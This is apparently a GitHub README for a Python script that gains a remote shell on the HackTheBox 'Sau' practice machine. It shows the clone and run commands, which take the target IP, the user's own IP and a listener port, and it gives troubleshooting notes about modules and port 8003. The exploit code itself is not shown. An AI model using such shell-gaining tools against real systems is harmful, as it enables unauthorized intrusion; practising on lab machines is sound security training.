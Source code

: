 # SAU Machine Hackthebox

## Remote Code Execution (RCE)

Simple sau machine RCE to gain a shell.

---

### HOW TO USE IT

Download the `repository` :

```bash
git clone https://github.com/mikelgoti/SAU-HTB-RCE.git
```

Or just download the `sau_rce.py` .



Travel to the directory where you download the `script` and execute it with python:

```bash
python sau_rce.py -u <sau_machine_ip> -y <your_ip> -p <port_for_listener>
```

## EXAMPLES


![example1](images\example1.png)



![example2](images\example2.png)


---

## Not working ?

If the script is not running properly, it could be because you haven't installed one of these modules for Python:

+ import string

+ import random

+ import requests

+ import os

+ import threading

+ import time

+ import argparse

Install the missing modules with pip in your python enviroment and try it again.



Another reason could be that it's taking too much time to make the request, so you would need to increase this parameter to `10`.

![example3](images\example3.png)



Lastly, ensure that no other program on your computer is using port 8003, as this port needs to be available for python server.



---

## Note

`Don't worry about the 'Terminated' word showing once you've got the shell. It's because the Python server thread was closed.`
